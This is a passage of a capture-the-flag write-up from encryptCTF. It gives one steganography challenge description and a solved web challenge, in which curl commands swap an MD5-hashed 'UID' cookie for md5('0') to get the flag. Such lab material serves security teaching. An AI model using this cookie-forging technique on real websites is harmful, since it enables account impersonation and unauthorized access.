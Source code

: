 `encryptCTF{L1GH7_17_UP}`

## 100 Steganography / Stressed out? ##

**Description**

> Elliot all stressed out from this hack, that hack, saving the world (yeeeeep, sounds about right) was losing his mind when Mr. Robot handed him this song to relax to.
> 
> <span style="font-style: italic;color:#b00e8c;"> Elliot: It's good. So good, it scratched that part of my mind. The part that doesn't allow good to exist without a condition. </span>
> 
> <span style="color:#e83e8c;"> Author: maskofmydisguise</span>

**Files provided**

 - [`dontstressoutkiddo`](files/stressedout-dontstressoutkiddo.zip)

## 50 Web / Sweeeeeet ##

**Description**

> Do you like <a href="https://imgur.com/HfJdHKM">sweets</a>? <br>
> 
> <span style="color:#990000;">```http://104.154.106.182:8080```</span>
> 
> ```author: codacker```

**No files provided**

**Solution**

The title and the description of this challenge refer to cookies.

After visiting the website for the first time, we are given a `UID` cookie:

```bash
$ curl -vv http://104.154.106.182:8080/ 2>&1 | grep "Set-Cookie"
< Set-Cookie: UID=f899139df5e1059396431415e770c6dd; expires=Sat, 06-Apr-2019 14:20:00 GMT; Max-Age=172800
```

On our second visit, with the `UID` cookie set, we get another cookie:

```bash
$ curl -b "UID=f899139df5e1059396431415e770c6dd" -vv http://104.154.106.182:8080/ 2>&1 | grep "Set-Cookie"
< Set-Cookie: FLAG=encryptCTF%7By0u_c4nt_U53_m3%7D
```

But this is not the flag.

Interestingly though, the `UID` is always the same, even when visiting in different browsers or from different IPs. In fact, the hash is a known hash and it is `md5("100") == "f899139df5e1059396431415e770c6dd"`. We can change our `UID` to `md5("0") == "cfcd208495d565ef66e7dff9f98764da"`, which gives us the actual flag:

```bash
$ curl -b "UID=cfcd208495d565ef66e7dff9f98764da" -vv http://104.154.106.182:8080/ 2>&1 | grep "Set-Cookie"
< Set-Cookie: FLAG=encryptCTF%7B4lwa4y5_Ch3ck_7h3_c00ki3s%7D%0A
```
